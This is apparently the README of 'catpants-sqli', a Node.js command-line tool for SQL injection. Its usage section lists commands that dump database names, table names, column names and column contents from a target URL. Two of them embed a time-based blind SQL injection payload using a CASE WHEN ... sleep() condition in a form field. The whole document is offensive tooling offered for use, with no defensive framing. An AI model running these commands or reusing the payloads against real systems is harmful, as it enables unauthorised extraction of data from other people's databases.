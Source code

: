 # catpants-sqli
## Usage
* `node . dump-db-names -u "http://192.168.0.1" -d "name=1{CATPANTS}"`
* `node . dump-table-names -u "http://192.168.0.1" -d "name=1{CATPANTS}" --db db_name`
* `node . dump-column-names -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -" --db db_name --table users`
* `node . dump-table-column -u "http://192.168.0.1" -d "name=1' AND (CASE WHEN {{> query}} THEN sleep({{timeout}}) END)-- -" --db db_name --table users --column id`
